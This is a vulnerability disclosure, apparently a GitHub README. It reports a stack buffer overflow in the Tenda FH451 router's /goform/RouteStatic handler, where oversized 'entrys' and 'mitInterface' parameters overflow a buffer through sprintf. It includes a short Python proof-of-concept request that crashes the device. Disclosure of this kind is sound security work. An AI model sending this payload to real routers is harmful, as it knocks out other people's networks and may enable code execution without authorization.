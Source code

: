 # Tenda FH451 Vulnerability
This vulnerability lies in the `/goform/RouteStatic` page which influences the lastest version of Tenda [FH451_V1.0.0.5](https://www.tenda.com.cn/download/detail-1375.html). 
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `fromRouteStatic`.

In function `fromRouteStatic` it reads 2 user provided parameters `entrys` and `mitInterface` into `v8` and `v7`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/FH451/42/vlun1.png)

So by requesting the page `/goform/RouteStatic`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/RouteStatic?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@XYlearn](https://github.com/XYlearn) and [@Funcy_kilar](https://github.com/Funcy33) from Fudan University, Guangzhou University.
